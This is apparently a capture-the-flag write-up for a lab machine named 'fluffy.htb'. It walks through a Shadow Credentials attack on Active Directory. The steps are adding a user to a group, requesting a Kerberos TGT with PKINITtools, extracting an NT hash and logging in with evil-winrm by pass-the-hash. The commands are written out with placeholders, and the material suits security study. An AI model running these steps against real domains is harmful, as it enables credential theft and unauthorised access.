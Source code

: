 # Shadow Credentials Attack

In this scenario, `<USER>` is a member of the **Service Accounts** group and has `GenericWrite` permissions on the group. This opens the possibility for a **Shadow Credentials** attack.



## Preparations

- Install the following tools in a virtual environment:
  - `pywhisker`
  - `PKINITtools`
  - `faketime`
- Starting a virtual environment might also be useful 

---

## Add User to Service Accounts

```bash
net rpc group addmem "Service Accounts" "<USER>" \
  -U "dc01.fluffy.htb"/"<USER>" -S "<TARGET_IP>"


Request Kerberos TGT for Service Account

If your local time does not match the Domain Controller (DC), you may encounter errors. Synchronize time first:

sudo rdate -n <TARGET_IP>


Generate a TGT using faketime:

faketime '<DATE_TIME>' python3 gettgtpkinit.py \
  -cert-pem key_cert.pem \
  -key-pem key_priv.pem \
  fluffy.htb/<SERVICE_ACCOUNT> \
  <SERVICE_ACCOUNT>.ccache


Set the Kerberos ticket environment variable:

export KRB5CCNAME=<SERVICE_ACCOUNT>.ccache


Tip: Ensure the KRB5CCNAME export works in your virtual environment. Use an absolute path if necessary.

Retrieve NT Hash
faketime '<DATE_TIME>' python3 getnthash.py \
  -key <KEY> fluffy.htb/<SERVICE_ACCOUNT>

Access Service Account
evil-winrm -i <TARGET_IP> -u <SERVICE_ACCOUNT> -H <NT_HASH>



